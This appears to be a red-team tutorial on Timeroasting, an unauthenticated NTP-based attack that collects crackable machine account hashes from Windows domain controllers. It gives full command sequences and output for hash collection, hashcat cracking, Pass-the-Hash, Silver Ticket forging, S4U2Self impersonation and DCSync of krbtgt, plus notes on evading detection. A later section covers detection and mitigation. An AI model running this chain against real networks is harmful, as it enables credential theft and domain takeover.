

## What Is Timeroasting?

Timeroasting is a credential attack against machine account passwords discovered by Tom Tervoort of Secura in 2023.[^1] It requires no credentials whatsoever — just network access to port 123 on a domain controller.

The core insight: Windows domain controllers run an NTP (Network Time Protocol — the standard protocol machines use to sync their clocks with a time source) service that supports an extension called MS-SNTP (Microsoft Simple Network Time Protocol — Microsoft's authenticated variant of NTP, used by domain members to get signed time responses from the DC). When a client requests an MS-SNTP authenticated response for a specific account, the DC signs the reply using an HMAC-MD5 (Hash-based Message Authentication Code using MD5 — a keyed hash that proves the response came from someone who knows the key) keyed with a value derived from that account's NT hash (the hashed form of an account's password used by Windows for authentication). The attacker captures those signed responses and cracks the HMAC-MD5 offline to recover the NT hash or the underlying password.

The attack works at scale by iterating through machine account RIDs. A RID (Relative Identifier) is the numeric suffix at the end of a Windows SID (Security Identifier — the unique string Windows uses to identify every domain account, in the format `S-1-5-21-<three numbers>-<RID>`). Every domain account has a RID; `WORKSTATION01$` might have RID 1105, `FILESERVER$` might have 1106, and so on. Timeroasting sweeps through a RID range, collects a signed NTP response for each machine account, and writes the lot to a file for offline cracking.

Machine account passwords are 120 random characters by default — functionally uncrackable. But environments with manually configured machine accounts, old service accounts set up as computer accounts, or systems where password policy was never enforced will have weak passwords. Those are the targets.

## How Does Timeroasting Work?

Timeroasting abuses the MS-SNTP extension to Windows time synchronisation. The attacker sends an NTP request to the domain controller on UDP 123 with a target account's RID in the Authenticator field, and the DC replies with a response signed using a key derived from that machine account's NT hash. The DC never authenticates the requester, so no credentials are needed. The signed response is saved as a `$sntp-ms$` hash and cracked offline.



The DC never requires the attacker to prove who they are. The NTP authentication extension is designed for clients to verify the DC's response, not for the DC to authenticate the client. The attacker is abusing that one-sided trust.

Step by step:

1. The attacker sends an NTP request to the DC (UDP port 123) with an MS-SNTP `Authenticator` field specifying a target account RID. The Authenticator is a section of the NTP packet defined by RFC 5905 for message authentication — in MS-SNTP, Microsoft repurposed the `Key Identifier` sub-field of the Authenticator to hold the target account's RID, telling the DC which account to sign the response with
2. The DC finds the machine account matching that RID, derives a signing key from the account's NT hash (specifically: MD5-HMAC, with the NT hash itself as the key material), and signs the NTP response
3. The attacker receives the signed packet and saves it in a format hashcat understands: `$sntp-ms$<ntp_response_hex>$<mac_hex>`
4. The attacker runs hashcat against the captured hashes using a wordlist or rule set
5. If the machine account had a weak password, hashcat recovers the plaintext — or at minimum the NT hash, which is immediately usable for [Pass-the-Hash](/docs/redteam/credential-dumping/)

The DC produces a valid signed response for every RID that corresponds to a real account. If an RID has no account, the DC returns nothing or an error. The attacker therefore knows which RIDs have active machine accounts from the presence of a response alone — that enumeration is a side effect, not an extra step.

## What Does Timeroasting Require?

- **Network access to the DC on UDP port 123** — the standard NTP port. Most internal network segments allow this freely since Windows time sync uses it.
- **The DC's IP address** — no hostname resolution required, no domain membership, no credentials.
- **Nothing else.** This is a fully unauthenticated attack. No domain account, no LDAP access, no prior foothold beyond network connectivity.

## Running Timeroast


  
Tom Tervoort's `timeroast.py` (from [SecuraBV/Timeroast](https://github.com/SecuraBV/Timeroast)) is the primary tool. It handles RID iteration, NTP packet construction, and hash output formatting in a single command. The `\` at the end of each line below is bash's line continuation character — the entire block runs as one command.

**Install dependencies:**

```bash
pip3 install scapy
```

**Sweep the default RID range (500–10000) — this covers almost all machine accounts in a typical domain:**

```bash
python3 timeroast.py 192.168.56.10
```

```
[*] Timeroast - MS-SNTP hash harvester
[*] Target: 192.168.56.10
[*] RID range: 500-10000
[*] Sending NTP requests...
$sntp-ms$01030b00000000000000000000000000c70c40ae271800000123456789abcdef$a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4
$sntp-ms$01030b00000000000000000000000000c70c40ae271800000123456789abcdef$f1e2d3c4b5a6f1e2d3c4b5a6f1e2d3c4
[*] Done. 2 hashes collected.
```

Each `$sntp-ms$` line is a hash for one machine account. The format is `$sntp-ms$[full NTP response in hex]$[HMAC-MD5 MAC in hex]` — hashcat mode 31300 knows how to parse it.

- `192.168.56.10` — the DC's IP address

**Save hashes to a file (required for hashcat — without `-o` the hashes print to stdout only):**

```bash
python3 timeroast.py 192.168.56.10 -o timeroast-hashes.txt
```

```
[*] Timeroast - MS-SNTP hash harvester
[*] Target: 192.168.56.10
[*] RID range: 500-10000
[*] Sending NTP requests...
[*] Done. 2 hashes collected.
[*] Hashes written to timeroast-hashes.txt
```

- `-o timeroast-hashes.txt` — write collected hashes to this file instead of (or in addition to) stdout

**Target a specific RID when you already know which account you want:**

```bash
python3 timeroast.py 192.168.56.10 --rid 1105
```

```
[*] Timeroast - MS-SNTP hash harvester
[*] Target: 192.168.56.10
[*] Targeting RID: 1105
$sntp-ms$01030b00000000000000000000000000c70c40ae271800000123456789abcdef$a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4
```

- `--rid 1105` — request a signed NTP response for the single account with RID 1105 instead of sweeping a range. Useful when reconnaissance has already identified a specific target machine account (for example, via LDAP enumeration showing `WORKSTATION01$` at RID 1105).

**Enumerate which RIDs have active accounts (no cracking needed for this — just check which RIDs returned a response):**

```bash
python3 timeroast.py 192.168.56.10 --rid-range 1000-2000 -o timeroast-hashes.txt
```

- `--rid-range 1000-2000` — restrict the sweep to this RID range instead of the default 500–10000. Useful when you want to focus on a specific slice of the AD account space or reduce traffic volume.

**Manual approach without the tool:**

If `timeroast.py` is unavailable, the MS-SNTP request can be crafted manually with scapy or a raw UDP socket. The packet is a standard NTP v3 client request with the `Key Identifier` field set to the target account's RID and the `Message Digest` field zeroed (the DC will compute and return the correct digest). In practice, using `timeroast.py` is simpler and less error-prone — but knowing the underlying mechanism means you can adapt if needed.
  
  
`timeroast.py` is a Python script and runs on Windows with Python 3 installed. The command syntax is identical to Linux:

```powershell
python timeroast.py 192.168.56.10 -o C:\Temp\timeroast-hashes.txt
```

There is no native Windows-only Timeroast tool (no PowerShell module or C# equivalent). If Python is not available, run the attack from a Linux machine instead — the only network requirement is UDP port 123 access to the DC, which is available from any machine on the same network. Hash cracking with hashcat runs identically on both platforms.
  


## Cracking the Hash

Hashcat mode 31300 handles `$sntp-ms$` hashes natively. This is an offline attack — no network access needed at this stage.

**Basic rockyou wordlist:**

```bash
hashcat -m 31300 timeroast-hashes.txt /usr/share/wordlists/rockyou.txt
```

``` {linenos=table}
hashcat (v6.2.6) starting...

OpenCL API (OpenCL 3.0 PoCL 3.1) - Platform #1 [The pocl project]
* Device #1: cpu-haswell-AMD Ryzen 9 5900X, 7872/15809 MB (2048 MB allocatable)

$sntp-ms$01030b00000000000000000000000000c70c40ae271800000123456789abcdef$a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4:Welcome1

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 31300 (MS-SNTP)
Hash.Target......: $sntp-ms$01030b00000000000000000000000000c70c40ae27...
Time.Started.....: Thu Mar 12 14:22:10 2026
Time.Estimated...: Thu Mar 12 14:22:11 2026
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Speed.#1.........: 3421.8 kH/s (1.46ms)
Recovered........: 1/2 (50.00%) Digests

Started: Thu Mar 12 14:22:10 2026
Stopped: Thu Mar 12 14:22:11 2026
```

The cracked password appears after the hash with a `:` separator — `Welcome1` in the example above. Hashcat found it in the rockyou wordlist in about one second.

- `-m 31300` — hashcat mode for MS-SNTP (the hash type timeroast produces)
- `timeroast-hashes.txt` — the file of `$sntp-ms$` hashes collected by `timeroast.py`
- `/usr/share/wordlists/rockyou.txt` — the wordlist to try (rockyou is the standard starting point; it ships with Kali Linux)

**Rules-based attack (extends wordlist coverage by mutating each word — appending numbers, capitalizing, adding symbols):**

```bash
hashcat -m 31300 timeroast-hashes.txt /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule
```

- `\` — bash line continuation character; splits a long command across multiple lines for readability, but the shell treats it as one command
- `-r /usr/share/hashcat/rules/best64.rule` — apply the best64 rule set, which generates 64 common password mutations per word (appending `1`, `!`, `123`, capitalizing the first letter, etc.)

**Brute-force for short passwords (useful if the account password has a known short minimum length):**

```bash
hashcat -m 31300 timeroast-hashes.txt -a 3 '?a?a?a?a?a?a?a?a'
```

- `-a 3` — attack mode 3 (brute-force / mask attack), tries every combination matching the mask
- `'?a?a?a?a?a?a?a?a'` — mask meaning eight characters, each `?a` representing any printable ASCII character. This tries all 8-character passwords. Adjust length as needed.

**Show previously cracked hashes from hashcat's pot file:**

```bash
hashcat -m 31300 timeroast-hashes.txt --show
```

```
$sntp-ms$01030b00000000000000000000000000c70c40ae271800000123456789abcdef$a1b2c3d4e5f6a1b2c3d4e5f6a1b2c3d4:Welcome1
```

- `--show` — print any hashes that are already cracked in hashcat's local pot file (the database of previously cracked hashes). Useful if you ran the crack earlier and want to retrieve results without re-running.

If hashcat cracks the plaintext password rather than just identifying it as already-hashed, you can derive the NT hash yourself with:

```bash
python3 -c "import hashlib; print(hashlib.new('md4', 'Welcome1'.encode('utf-16-le')).hexdigest())"
```

```
e19ccf75ee54e06b06a5907af13cef42
```

This gives you the NT hash directly from the plaintext, which is useful for the attack paths described in the next section.

## Using the Cracked Hash

A cracked machine account gives you several attack paths. Machine accounts (accounts ending in `$`) are fully valid Kerberos principals — they can request TGTs, authenticate to services, and in some configurations hold elevated privileges.

**Request a TGT as the machine account using the NT hash:**

```bash
getTGT.py radiant.local/'WORKSTATION01$' -hashes :e19ccf75ee54e06b06a5907af13cef42
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Saving ticket in WORKSTATION01$.ccache
```

The `-hashes` flag expects the format `LMhash:NThash`. The LM hash (an older, weaker Windows hash format that predates NT hashes — effectively obsolete) is almost always unused; leave it blank and keep the colon: `:NThashhere`. The NT hash goes after the colon.

```bash
export KRB5CCNAME=/tmp/WORKSTATION01\$.ccache
```

`KRB5CCNAME` is the environment variable Linux Kerberos libraries read to find the active ticket cache. Setting it to the `.ccache` file from `getTGT.py` tells all Kerberos-aware tools in your shell to authenticate using this ticket.

**Pass-the-Hash as the machine account directly (no TGT needed — uses NTLM authentication instead of Kerberos):**

```bash
smbclient.py radiant.local/'WORKSTATION01$'@dc01.radiant.local \
  -hashes :e19ccf75ee54e06b06a5907af13cef42
```

- `\` — bash line continuation
- `-hashes :e19ccf75ee54e06b06a5907af13cef42` — authenticate with the NT hash directly (Pass-the-Hash), bypassing the need for a plaintext password

**Forge a [Silver Ticket](/docs/kerberos/ticket-attacks/silver-ticket/) for services running as the machine account:**

Machine accounts are the service identity for built-in Windows services — CIFS (file sharing), HOST (remote management), LDAP, and RPCSS all run under the computer account. If you crack `FILESERVER$`, you can forge Service Tickets for every service on that machine.

```bash
ticketer.py \
  -nthash e19ccf75ee54e06b06a5907af13cef42 \
  -domain-sid S-1-5-21-3623811015-3361044348-30300820 \
  -domain radiant.local \
  -spn cifs/fileserver.radiant.local \
  Administrator
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for radiant.local/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*] Signing/Encrypting final ticket
[*] Saving ticket in Administrator.ccache
```

- `-nthash e19ccf75ee54e06b06a5907af13cef42` — the NT hash of `FILESERVER$`, used to encrypt the forged [Service Ticket](/docs/kerberos/tickets/) so the service accepts it
- `-domain-sid S-1-5-21-3623811015-3361044348-30300820` — the domain's SID, embedded in the PAC (Privilege Attribute Certificate — the blob inside a Kerberos ticket listing the user's group memberships and permissions) to make the ticket appear legitimate
- `-spn cifs/fileserver.radiant.local` — the [SPN](/docs/kerberos/kerberoast/) (Service Principal Name — the unique identifier for a service in Kerberos, in the format `servicetype/hostname`) this ticket is valid for
- `Administrator` — the username written into the ticket (you choose this freely; it does not need to exist)

**[S4U2Self](/docs/kerberos/delegation/s4u2self-abuse/) — impersonate any domain user against services on the compromised machine account's host:**

S4U2Self (Service for User to Self) is a Kerberos extension that lets a service obtain a Service Ticket for any user to itself. A machine account can use it to get a ticket for `Administrator` (or any user) to its own services, which then grants that service access.

```bash
getST.py radiant.local/'WORKSTATION01$' \
  -hashes :e19ccf75ee54e06b06a5907af13cef42 \
  -self \
  -impersonate Administrator \
  -spn cifs/workstation01.radiant.local
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Saving ticket in Administrator@cifs_workstation01.radiant.local@RADIANT.LOCAL.ccache
```

- `-self` — use the S4U2Self extension (request a Service Ticket to the account's own services)
- `-impersonate Administrator` — write `Administrator` as the client in the resulting ticket
- `-spn cifs/workstation01.radiant.local` — the specific service to get the ticket for

**DCSync if the machine account is a domain controller:**

Domain controller machine accounts (`DC01$`, `DC02$`) have built-in replication rights. If you crack a DC's machine account password, you can run DCSync — a technique that mimics a replication partner and requests all password hashes from the DC, including `krbtgt`.

```bash
secretsdump.py radiant.local/'DC01$'@dc01.radiant.local \
  -hashes :e19ccf75ee54e06b06a5907af13cef42 \
  -just-dc-user krbtgt
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS hashes
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5508500012cc005cf7082a9a89ebdfdf:::
```

- `-just-dc-user krbtgt` — only replicate the `krbtgt` account's hash instead of all accounts. `krbtgt` is the Kerberos Ticket Granting Ticket service account — its NT hash is the key material for Golden Tickets (forged TGTs that grant unrestricted access to the entire domain).
- The output format is `username:RID:LMhash:NThash:::` — the NT hash is the value before the `:::`.

## Operational Notes

**Most machine accounts are not crackable — and that is the point.** Windows generates 120-character random passwords for machine accounts by default. No wordlist or brute force can touch them. Timeroasting is a precision tool: it is useful only when your target environment has at least one machine account with a weak password. Sweep first, crack what responds, and focus on real candidates rather than spending cycles on accounts with properly randomized passwords.

**RIDs below 1000 are reserved for built-in accounts.** Standard machine account RIDs start above 1000 in most domains. The default sweep range of 500–10000 covers the built-in range and a wide span of typical user/computer accounts. Large environments may have accounts above 10000 — if LDAP enumeration is possible, enumerate machine accounts first, note their RIDs, and target those specifically rather than sweeping blind.

**No authentication means no attribution on the DC side.** The DC's NTP service processes these requests without logging account lookups or authentication attempts. From the DC's perspective, this looks like a flood of time sync requests from a single IP — not an authentication event of any kind.

**The cracked NT hash is often more immediately useful than the plaintext.** Most Impacket tools accept `-hashes :NThash` directly. You do not need the plaintext password to request a TGT, run DCSync, or forge a Silver Ticket — the NT hash alone is enough for all of those paths.

**Machine account passwords rotate every 30 days by default.** If a machine account password was weak and you crack it, the window for using that hash is limited. Computer accounts negotiate a new password with the DC automatically on the 30-day cycle (configurable via Group Policy). Use the cracked hash promptly, or disable the rotation for that account if you have the access — though disabling rotation is itself a detection indicator.

**Timeroast vs [AS-REP Roasting](/docs/kerberos/asreproast/).** Both attacks collect crackable offline hashes without credentials. AS-REP Roasting targets user accounts that have pre-authentication disabled. Timeroasting targets machine accounts via NTP. The two are complementary — run both in a target environment, since user accounts and machine accounts have entirely different password policies and exposure windows.

## How Do You Detect and Defend Against Timeroasting?

### What Logs Does Timeroasting Generate?

- **Unusual NTP traffic volume from a non-time-syncing endpoint** — the only network-level signal. A workstation or attacker machine sending hundreds or thousands of NTP requests to the DC in a short window is anomalous; normal clients send one request per sync interval (typically once every few hours). Zeek or Suricata can detect NTP authentication extensions (MS-SNTP), which are rare in normal domain traffic and almost never originate from member workstations.
- **Network flow records (NetFlow / IPFIX)** — a single source IP generating high-volume UDP 123 traffic toward the DC is visible in flow data even without deep packet inspection. SOC teams with flow collection can write a threshold alert.
- **Firewall deny logs** — if the attacker is outside a segment that allows NTP to the DC, firewall logs will capture the UDP 123 attempts.

### What Logs Does Timeroasting Not Generate?

- **Event ID 4776 does not fire** — that event covers NTLM credential validation. NTP is not NTLM. The DC processes MS-SNTP requests without touching the authentication event log at all.
- **Event ID 4768 / 4769 do not fire** — no Kerberos exchange occurs. The attacker never requests a TGT or Service Ticket during the collection phase.
- **No account lockout, no failed logon events** — the NTP service does not have a lockout mechanism. An attacker can sweep every RID from 500 to 50000 without triggering a single failed authentication log entry.
- **No LDAP queries** — the attacker does not enumerate account names. The DC matches RIDs to accounts internally when signing the NTP response; the attacker never touches LDAP or RPC.

This is one of the quietest pre-credential attacks in the Windows ecosystem. On a network without NTP inspection, it is effectively invisible.

### How Do You Mitigate Timeroasting?

- **Do not manually set weak machine account passwords.** The attack is only viable against accounts whose passwords weren't generated by Windows. Letting the OS manage machine account passwords (the default) produces 120-character random passwords that are uncrackable. Every manual override is a liability.
- **Monitor for NTP request bursts to domain controllers.** Deploy a Zeek or Suricata rule that fires when a single source IP sends more than N NTP requests to the DC within a time window. Normal time sync is infrequent; Timeroast sweeps are not.
- **Firewall UDP 123 inbound to DCs from non-member device segments.** Domain members need time sync; non-domain devices and external networks do not. Restrict NTP access to the DC to known internal subnets. This limits the attack surface without impacting legitimate domain time sync.
- **Audit machine accounts for non-default passwords.** Query AD for computer accounts and check whether their `pwdLastSet` timestamps align with the account creation date and 30-day rotation cycle. Accounts whose passwords were manually set and never rotated are the targets.
- **Rotate suspected machine account passwords immediately.** If an account is suspected of having a weak or leaked password, reset it in Active Directory Users and Computers, or via PowerShell: `Set-ADComputer WORKSTATION01 -Reset` (which triggers the machine to renegotiate its password with the DC). There is no built-in way to force hashcat to fail retroactively — rotation is the remediation.
- **No way to disable MS-SNTP without impacting time sync.** The NTP authentication extension is built into the Windows time service. Disabling it breaks domain time synchronization, which cascades into Kerberos failures (Kerberos requires clocks within 5 minutes of each other). There is no supported configuration to disable MS-SNTP selectively.

### Detection Tools

- **Zeek** — the `ntp.log` file captures NTP transactions including authentication fields. Write a Zeek notice rule that fires on NTP authentication requests from non-DC, non-time-server IPs. MS-SNTP authenticated requests from a random workstation are essentially never legitimate.
- **Suricata** — write a rule matching UDP port 123 traffic with NTP authentication extension bytes. Community rules for Timeroast detection exist; check the Emerging Threats ruleset.
- **Microsoft Sentinel / Splunk (network flow)** — alert on high-volume UDP 123 from a single source to the DC IP. Threshold: more than 50 NTP packets from one IP to the DC within 5 minutes is an acceptable starting point for most environments.
- **Microsoft Defender for Identity (MDI)** — as of this writing, MDI does not have a dedicated Timeroasting alert. It does monitor for unusual network reconnaissance; depending on your environment's baseline, the NTP volume may surface as an anomaly. Check your MDI version's release notes, as Timeroast-specific detection may have been added since initial publication.
- **Firewall / IDS** — configure network IDS to alert on NTP packets with non-zero `Key Identifier` fields from unexpected source IPs. This is a low false-positive rule since legitimate MS-SNTP clients are exclusively domain members doing time sync, not offensive tooling.

[^1]: Tom Tervoort, "Timeroasting: Exploiting MS-SNTP for Unauthenticated Offline Password Cracking", Secura, 2023. https://www.secura.com/blog/timeroasting

## References

### Original Research
- Tom Tervoort (Secura) — "Timeroasting: Attacking Trust in Time" (2023)

### Tools
- [timeroast.py](https://github.com/SecuraBV/Timeroast) — MS-SNTP hash harvester
- [Impacket](https://github.com/fortra/impacket) — Python network protocol library and scripts
- [Hashcat](https://github.com/hashcat/hashcat) — GPU-accelerated password cracker

### Specifications
- [RFC 5905 — Network Time Protocol Version 4](https://www.rfc-editor.org/rfc/rfc5905)
- [MS-SNTP — Network Time Protocol (NTP) Authentication Extensions](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sntp/)
